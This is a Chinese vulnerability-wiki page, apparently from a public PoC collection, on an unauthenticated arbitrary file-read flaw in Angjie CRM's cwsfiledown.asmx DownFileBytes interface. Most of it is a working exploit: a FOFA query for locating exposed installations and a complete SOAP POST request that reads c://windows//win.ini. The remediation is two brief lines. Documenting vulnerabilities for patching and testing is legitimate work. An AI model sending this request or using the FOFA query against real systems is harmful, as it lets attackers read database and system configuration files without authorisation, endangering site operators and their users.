

# 昂捷CRM cwsfiledown.asmx 任意文件读取漏洞

# 漏洞描述

昂捷CRM cwsfiledown.asmx 接口DownFileBytes实例处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 影响版本

昂捷CRM

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/ClientBin/slEnjoy.App.xap"

POC/EXP：

POST /EnjoyRMIS_WS/WS/FileDown/cwsfiledown.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownFileBytes"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownFileBytes xmlns="http://tempuri.org/">
      <sFileName>c://windows//win.ini</sFileName>
      <iPosition>1</iPosition>
      <iReadBytesLen>100</iReadBytesLen>
      <bReadBytes>ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg</bReadBytes>
    </DownFileBytes>
  </soap:Body>
</soap:Envelope>

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
